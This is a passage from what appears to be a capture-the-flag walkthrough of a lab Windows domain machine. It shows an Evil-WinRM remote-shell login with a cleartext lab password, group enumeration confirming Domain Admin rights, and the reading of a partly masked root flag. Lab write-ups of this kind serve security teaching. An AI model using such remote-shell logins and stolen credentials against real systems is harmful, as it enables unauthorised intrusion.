     *Evil-WinRM* PS C:\programdata> exit

    Info: Exiting with code 0

    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u maria -p 'W3llcr4ft3d_4cls'

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\maria\Documents> whoami /groups

    GROUP INFORMATION
    -----------------

    Group Name                                    Type             SID                                           Attributes
    ============================================= ================ ============================================= ===============================================================
    Everyone                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users               Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                                 Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
    BUILTIN\Administrators                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
    NT AUTHORITY\NETWORK                          Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users              Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization                Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
    OBJECT\Domain Admins                          Group            S-1-5-21-4088429403-1159899800-2753317549-512 Mandatory group, Enabled by default, Enabled group
    OBJECT\Denied RODC Password Replication Group Alias            S-1-5-21-4088429403-1159899800-2753317549-572 Mandatory group, Enabled by default, Enabled group, Local Group
    NT AUTHORITY\NTLM Authentication              Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
    Mandatory Label\High Mandatory Level          Label            S-1-16-12288



As an Administrator and Domain Admin, maria can now read `root.txt`:



    *Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
    6cc13722************************



## Beyond Root

### Identify Automation
